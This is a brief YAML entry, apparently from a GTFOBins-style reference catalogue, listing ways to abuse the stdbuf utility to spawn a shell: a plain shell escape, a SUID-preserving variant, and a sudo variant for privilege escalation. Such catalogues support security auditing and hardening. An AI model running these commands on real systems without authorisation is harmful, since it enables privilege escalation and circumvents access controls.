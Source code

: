 ```yaml
---
name: stdbuf
functions:
  shell:
    - code: stdbuf -i0 /bin/sh
  suid:
    - code: ./stdbuf -i0 /bin/sh -p
  sudo:
    - code: sudo stdbuf -i0 /bin/sh
---
```

